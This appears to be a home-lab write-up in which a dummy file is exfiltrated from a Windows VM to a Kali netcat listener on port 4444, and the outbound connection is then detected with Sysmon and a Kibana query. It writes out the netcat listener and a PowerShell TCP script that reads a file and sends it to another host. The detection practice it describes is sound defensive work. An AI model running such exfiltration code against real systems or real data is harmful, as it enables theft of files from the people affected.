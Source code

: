 # Hint 3 – Data Exfiltration Detection

## ✅ Objective

Simulate an unauthorized data exfiltration attempt from the Windows VM to Kali Linux using a non-standard port, and detect the event using Sysmon and ELK stack.

---

## 🧰 Tools Used

* Windows 10 VM
* Kali Linux VM (netcat listener)
* PowerShell TCP client script
* Sysmon + Winlogbeat
* Kibana (ELK stack)

---

## 🔍 Steps Performed

### 1. Created Dummy File on Windows

```powershell
echo "Sensitive fake data for testing" > C:\Users\Public\secrets.txt
```

### 2. Started Netcat Listener on Kali

```bash
nc -lvp 4444 > received_file.txt
```

Result:

* Kali received a connection from Windows (`192.168.43.206`) to `port 4444`
* Contents of `secrets.txt` were saved in `received_file.txt`

### 3. Sent Data from Windows using PowerShell

```powershell
$client = New-Object System.Net.Sockets.TcpClient("192.168.43.200", 4444)
$stream = $client.GetStream()
$writer = New-Object System.IO.StreamWriter($stream)
Get-Content "C:\Users\Public\secrets.txt" | ForEach-Object { $writer.WriteLine($_) }
$writer.Flush(); $writer.Close(); $stream.Close(); $client.Close()
```

### 4. Verified Logs in Kibana

Search used:

```kibana
event.code: "3" AND destination.port: "4444"
```

Result:

* Sysmon Event ID 3 logged
* Connection from Windows to Kali on TCP port 4444
* Process: `powershell.exe`

---

## 🟛 Screenshots

* `kali_nc_receive.png`: Kali terminal showing netcat receiving data
* `powershell_send_data.png`: PowerShell successfully sending the file
* `kibana_exfiltration_log.png`: Kibana showing Event ID 3 for the exfiltration

---

## 📊 Observations

* Sysmon successfully captured outbound TCP connection to port 4444
* Data was received on Kali, proving the exfiltration occurred
* Log visibility confirmed in Kibana via Winlogbeat

---

## ✅ Conclusion

This scenario successfully simulated a basic data exfiltration attempt. The activity was detected using Sysmon Event ID 3, forwarded to ELK, and confirmed via Kibana. This proves endpoint and network monitoring can detect unauthorized outbound traffic over non-standard ports.
 

